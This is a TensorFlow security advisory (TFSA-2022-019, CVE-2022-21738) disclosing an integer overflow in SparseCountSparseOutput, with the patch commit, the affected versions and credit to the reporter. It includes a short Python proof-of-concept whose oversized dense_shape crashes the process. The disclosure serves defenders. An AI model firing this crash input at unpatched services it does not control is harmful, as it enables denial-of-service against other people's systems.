 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-019.md
## TFSA-2022-019: Integer overflow leading to crash in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21738

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) can be made to crash a TensorFlow process by an integer overflow whose result is then used in a memory allocation:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[1,1]],
  values=[2],
  dense_shape=[2 ** 31, 2 ** 32],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [6f4d3e8139ec724dbbcb40505891c81dd1052c4a](https://github.com/tensorflow/tensorflow/commit/6f4d3e8139ec724dbbcb40505891c81dd1052c4a).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
